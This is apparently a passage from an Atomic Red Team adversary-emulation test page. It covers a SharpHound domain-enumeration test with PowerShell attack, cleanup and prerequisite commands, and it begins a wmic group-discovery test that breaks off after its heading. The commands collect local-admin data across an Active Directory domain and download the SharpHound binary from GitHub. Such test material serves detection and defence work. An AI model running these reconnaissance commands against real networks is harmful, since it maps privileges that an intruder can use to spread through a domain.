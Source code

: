 | Name            | Description                   | Type   | Default Value                                                      |
| --------------- | ----------------------------- | ------ | ------------------------------------------------------------------ |
| domain          | FQDN of the targeted domain   | string | $env:UserDnsDomain                                                 |
| sharphound_path | SharpHound Windows executable | path   | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;SharpHound.exe |
| output_path     | Output for SharpHound         | path   | $env:TEMP&#92;SharpHound&#92;                                      |

#### Attack Commands: Run with `powershell`!

```powershell
New-Item -Path "#{output_path}" -ItemType Directory > $null
& "#{sharphound_path}" -d "#{domain}" --CollectionMethod LocalAdmin --NoSaveCache --OutputDirectory "#{output_path}"
```

#### Cleanup Commands:

```powershell
Remove-Item -Recurse #{output_path} -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: SharpHound binary must exist on disk and at specified location (#{sharphound_path}).

And the computer must be domain joined (implicit authentication).

##### Check Prereq Commands:

```powershell
if (Test-Path "#{sharphound_path}") { exit 0 } else { exit 1 }
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://github.com/BloodHoundAD/BloodHound/blob/e062fe73d73c015dccb37fae5089342d009b84b8/Collectors/SharpHound.exe?raw=true" -OutFile "#{sharphound_path}"
```

<br/>
<br/>

## Atomic Test #5 - Wmic Group Discovery

Utilizing wmic.exe to enumerate groups on the local system. Upon execution, information will be displayed of local groups on system.

**Supported Platforms:** Windows

**auto_generated_guid:** 7413be50-be8e-430f-ad4d-07bf197884b2

#### Attack Commands: Run with `command_prompt`!
